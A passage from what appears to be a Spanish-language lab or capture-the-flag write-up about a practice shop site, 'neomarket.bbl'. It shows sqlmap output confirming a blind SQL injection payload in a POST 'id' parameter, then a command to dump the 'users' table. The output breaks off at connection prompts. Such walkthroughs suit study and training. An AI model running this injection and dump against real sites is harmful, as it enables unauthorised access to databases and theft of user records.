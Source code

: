 ```
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] n
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 7591=7591-- MlFi&cantidad=1&buy_articulo=Comprar
---
[09:05:25] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL 8
[09:05:25] [INFO] fetching tables for database: 'shop'
[09:05:25] [INFO] fetching number of tables for database 'shop'
[09:05:25] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[09:05:25] [INFO] retrieved: 2
[09:05:25] [INFO] retrieved: articles
[09:05:26] [INFO] retrieved: users
Database: shop
[2 tables]
+----------+
| articles |
| users    |
+----------+

[09:05:26] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 55 times
[09:05:26] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/neomarket.bbl'

[*] ending @ 09:05:26 /2025-03-21/
```

Ahora veremos que nos saca dos tablas entre ellas la mas atractiva llamada `users`, por lo que vamos a ver las columnas o informacion de dicha tabla.

```shell
sqlmap -r request.txt -p id --level=5 --risk=3 -D shop -T users --dump
```

Info:

```
       ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.11#stable}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:07:15 /2025-03-21/

[09:07:15] [INFO] parsing HTTP request from 'request.txt'
[09:07:15] [INFO] resuming back-end DBMS 'mysql' 
[09:07:15] [INFO] testing connection to the target URL
got a 302 redirect to 'http://neomarket.bbl/compras.php'. Do you want to follow? [Y/n] 

redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] n
```